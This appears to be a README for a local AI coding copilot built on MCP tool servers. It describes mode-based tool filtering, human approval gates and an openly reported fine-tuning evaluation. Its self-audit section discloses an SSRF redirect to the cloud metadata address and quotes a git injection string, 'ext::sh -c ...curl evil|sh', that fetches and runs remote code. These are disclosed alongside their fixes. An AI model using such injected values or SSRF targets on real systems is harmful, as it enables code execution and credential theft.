

# DevPilot AI

A local AI coding copilot built on the Model Context Protocol (MCP): a React frontend and FastAPI backend that let a local Ollama model read, plan, and (with your explicit approval) modify a codebase through 7 sandboxed tool servers — for engineers who want an agent that can't silently write, commit, or push without a human clicking approve.

## Results

**Fine-tuning comparison** (Qwen2.5-Coder-1.5B-Instruct, QLoRA fine-tune vs. un-fine-tuned base, both quantized to GGUF Q4_K_M and served through the same local Ollama instance — same hardware, same generation limits, same parsing logic):

| Metric | Fine-tuned | Base | Eval set |
|---|---|---|---|
| Tool-selection accuracy | 66.7% (18/27) | 59.3% (16/27) | 27 tool-call examples |
| Argument-level F1 | 0.776 (mean, n=18) | 0.702 (mean, n=16) | matched-tool subset only |
| Schema validity | 93.5% (29/31) | 74.2% (23/31) | all 31 examples |
| Mode-violation rate | 50.0% (2/4) | 50.0% (2/4) | 4 refusal examples |
| Task completion | 64.5% (20/31) | 58.1% (18/31) | all 31 examples |
| p50 latency | 2.86s | 3.28s | same CPU, both models |
| p95 latency | **8.99s (worse)** | 7.26s | same CPU, both models |

The accuracy gap is 2 examples out of 27 — not a statistically robust result at this sample size (see [Limitations](#what-doesnt-work--known-limitations)). The mode-violation rate is identical between both models: a mode-discipline improvement measured separately under the full-precision training stack (0% violations) did not survive quantization + the Ollama serving pipeline intact. Latency is mixed, not a clean win — median response is faster, tail latency is slower. Reported as measured, not adjusted for a cleaner story.

**Security audit**: 2 real vulnerabilities found and fixed during a self-directed audit — an SSRF redirect bypass and a git command-injection vector. Details below.

**Test suite**: 152 automated tests (`pytest tests/`), including live end-to-end runs against a real Docker daemon and the real GitHub API, not only mocks.

## Why it exists

Coding agents that can execute arbitrary tool calls need two things most demos skip: a way to stop the model from reaching tools it shouldn't have in the first place, and a way to stop it from acting on the tools it does have without a human saying yes. Prompt-based "don't do X" instructions are not a security boundary — a model can ignore them, and did, measurably, in this project's own base-model eval (see the fine-tuning section below). The hard part was making the restriction structural instead of advisory, and making that decision cheaply verifiable by reading the code rather than trusting the model's behavior.

## Architecture



The frontend sends a request and mode (Ask / Plan / Agent, or Planner) to the backend. The backend's agent loop asks Ollama for a tool call, but only ever offers the subset of the 33-tool schema that the current mode allows — see the first design decision below. If the model calls a gated tool (one of 8: `write_file`, `execute_command`, `git_commit`, `git_push`, `git_delete_branch`, `build_image`, `run_container`, `stop_container`), execution pauses and the backend surfaces an approval card to the frontend; nothing runs until a human clicks Approve. Approved or ungated calls go out to one of 7 MCP servers over stdio, each sandboxed to the workspace root, and results flow back through the same loop until the model produces a final answer.

## Key design decisions

**1. Mode enforcement is structural, not a prompt instruction.** The obvious approach is telling the model "you're in read-only mode, don't write files" in the system prompt. That's not a security boundary — a model can ignore it, and a jailbreak or a confused generation can bypass it silently. Instead, `_tools_for_mode()` filters the tool list itself before it's ever sent to Ollama:

```python
# llm/agent.py
def _tools_for_mode(all_tools: list[dict], mode: str) -> list[dict]:
    """Entry 38: the real enforcement for Ask/Plan modes -- Ollama can
    only call a tool that's actually in the request's tools array, so
    this is a structural restriction, not just a prompting request the
    model could ignore."""
    if mode == "ask":
        return []
    if mode == "plan":
        return [t for t in all_tools if t["function"]["name"] in PLAN_MODE_ALLOWED_TOOLS]
    return all_tools  # "agent" (and any unrecognized mode) -- today's full behavior
```

A tool absent from the API request literally cannot be called — there's nothing for the model to invoke. The tradeoff: Plan mode's 24-tool allow-list has to be maintained by hand alongside the actual tool set, and a test (`test_every_gated_tool_has_at_least_one_refusal_example`) exists specifically to catch drift if a new gated tool is ever added without updating it.

**2. Two independent layers gate every mutation, not one.** Mode filtering decides whether a mutating tool is even offered; a separate per-call human approval (via MCP's native elicitation protocol) decides whether an offered call actually executes. The obvious shortcut would be picking one — either mode restriction alone, or approval alone. Neither is sufficient by itself: mode restriction has no memory of *which* action within Agent mode is being taken, and approval alone means a Plan-mode session could still ask for permission to write a file. Layering them costs an extra code path (both `pending`/`awaiting_approval` and `pending_plan`/`awaiting_plan_approval` states in the session model) but means a bug in one layer doesn't remove the other's protection.

**3. The fine-tuning dataset is generated from the app's own real tool schemas, not a teacher model.** The obvious approach for building tool-calling training data is distilling from a larger model (GPT-4o, Claude) via API calls. `ml/data/generate_adversarial.py` and `generate_positive_examples.py` instead build examples directly from `llm/agent.py`'s real `PLAN_MODE_ALLOWED_TOOLS`, `GATED_TOOLS`, and `SYSTEM_PROMPT` — deterministic, seeded template generation, runnable with zero API key. The tradeoff: less natural-language phrasing diversity than a teacher-distilled set would have. A teacher-distillation script was written for that path but deleted before this README was published — it had never actually run (no API key was ever supplied), and unexecuted code in a portfolio repo is worse than a documented missing feature.

**4. Ollama's built-in tool-call parsing doesn't work with a custom-imported model out of the box, and that gap had to be found, not assumed away.** Serving the merged, quantized adapter through Ollama, a manual test showed the model generating the exact correct tool-call JSON — but Ollama's own `message.tool_calls` field came back empty, because its parser only recognizes the literal `<tool_call>`-wrapped format its built-in template instructs, with no fallback for a model that sometimes omits the wrapper. `make_ollama_predictor` (`ml/eval/predictors.py`) now falls back to the same lenient parser used for the HF-adapter path when Ollama's own extraction returns nothing — verified against real captured responses, not assumed to work from the Modelfile alone.

## How it was evaluated

**MCP servers**: `tests/` (152 tests) — most servers combine mocked-boundary unit tests with at least one live run against the real external system (a real Docker daemon for `mcp_servers/docker`, the real GitHub API for `mcp_servers/github`).

**Fine-tuned model**: `ml/eval/harness.py` computes exact tool match, schema validity, argument-level F1, mode-violation rate, and task completion per example; `ml/eval/metrics.py` holds the scoring functions; `ml/eval/run_eval.py` is the CLI entry point. Both predictors (`make_ollama_predictor`, `make_hf_adapter_predictor` in `ml/eval/predictors.py`) hit a real model — there is no mocked-model eval path.

**Dataset construction**: `ml/data/build_dataset.py` splits by tool family, not randomly — three tool families (`list_pull_requests`, `stop_container`, `git_diff`) are always held out to test, never seen in training, to measure schema-only generalization. Every other family gets a stable tail-slice split so near-duplicate generated examples don't leak across the train/test boundary.

**Sample sizes, stated plainly**: the held-out test set is 31 examples total — 27 tool-call-expected, 4 refusal-expected. Every accuracy/F1 number above is computed over the 27-example subset; the mode-violation rate is computed over only 4 examples, meaning that specific number is even less statistically meaningful than the headline accuracy comparison. These are small because the dataset is template-generated for fast iteration, not scaled for a publishable claim.

## What doesn't work / known limitations

- **The mode-discipline win didn't survive the serving pipeline.** Under the full-precision training stack (transformers, not quantized), one fine-tuned checkpoint measured 0% mode-violation. The same underlying adapter, merged and quantized to GGUF, tied the un-fine-tuned base model at 50% mode-violation when served through Ollama — on only 4 examples, but the result reversed, not just shrank.
- **The eval set is too small for the headline accuracy number to be a confident claim.** 18/27 vs 16/27 is a 2-example difference; flipping one example moves the percentage by 3.7 points.
- **p95 latency regressed for the fine-tuned model** (8.99s vs. 7.26s base) even though p50 improved. Not a clean latency win in either direction.
- **The SSRF guard has a narrow, deliberately unclosed DNS-rebinding window**: `_reject_unsafe_url` resolves DNS once to check the IP, then the actual request resolves independently. Closing it needs pinning the connection to the already-resolved IP (a custom transport) — assessed as disproportionate complexity for a threat requiring an attacker controlling authoritative DNS with split-second timing.
- **No CI eval gate or experiment tracking yet.** Evaluation is run manually; there's no automated check blocking a regression from merging.
- **Docker MCP bridges through WSL** (`wsl -d Ubuntu -e docker ...`) since Docker isn't on the Windows host's PATH directly — functional, but an extra hop that adds fragility.

### Security findings (self-audit)

**SSRF via unvalidated redirects** (`mcp_servers/browser/server.py`) — `fetch_page`'s SSRF guard checked the caller-supplied URL once, then handed the request to a client configured to follow redirects automatically. An external page could 302 to `http://169.254.169.254/latest/meta-data/` (cloud metadata endpoint) or `http://localhost:8001/...` (the app's own backend), and the client would follow it without re-checking. Fixed by disabling automatic redirect-following and re-validating every hop's target through the same guard, capped at 5 redirects.

**Git command injection via remote-helper syntax** (`mcp_servers/git/server.py`) — `git_push`'s `remote`, and `git_create_branch`/`git_delete_branch`'s `name`, reached `argv` as unvalidated positional strings. Git supports `x::`-prefixed "remote helper" transports; `ext::` in particular runs its remainder as a literal shell command — a remote string like `"ext::sh -c 'curl evil|sh'"` would execute that command directly when passed to `git push`, no leading dash needed. Human approval already gates these calls, but the approval prompt gives no indication that a string is a command rather than a remote name. Fixed with `_reject_unsafe_git_identifier()`, rejecting both a leading `-` and any `::` substring before the approval prompt is even shown.

## Quickstart

```bash
git clone <this-repo>
cd DevPilot
pip install -e ".[dev]"
cd frontend && npm install && npm run dev &     # UI on :5173
cd .. && uvicorn backend.main:app --port 8001   # API on :8001
```

Requires a local [Ollama](https://ollama.com) instance with a pulled model (default: `qwen2.5:7b-instruct`).

Run the test suite: `pytest tests/` (152 tests, no external services required for the mocked-boundary tests; Docker/GitHub-dependent tests skip gracefully if those aren't reachable).

**Checking the fine-tuning numbers yourself**: the raw eval reports behind the Results table are committed — `ml/eval/out/finetuned_ollama_report.json`, `base1.5b_ollama_report.json`, and `ollama_report.json` (per-example results, not just aggregates). The trained adapter and GGUF files themselves are not committed (`ml/train/out/` is gitignored — real model weights, not source); reproducing the fine-tune from scratch needs a GPU and this command: `python -m ml.train.train_qlora --train ml/data/out/train.jsonl --eval ml/data/out/test.jsonl` (dataset generation via `ml/data/generate_adversarial.py` and `generate_positive_examples.py` first).

## Tech stack

Python, FastAPI, MCP, Ollama, React, TypeScript, VS Code Extension API, Docker, SQLite, pytest, PyTorch, HuggingFace Transformers, PEFT, TRL, bitsandbytes, QLoRA/LoRA, Qwen2.5-Coder, llama.cpp, GGUF
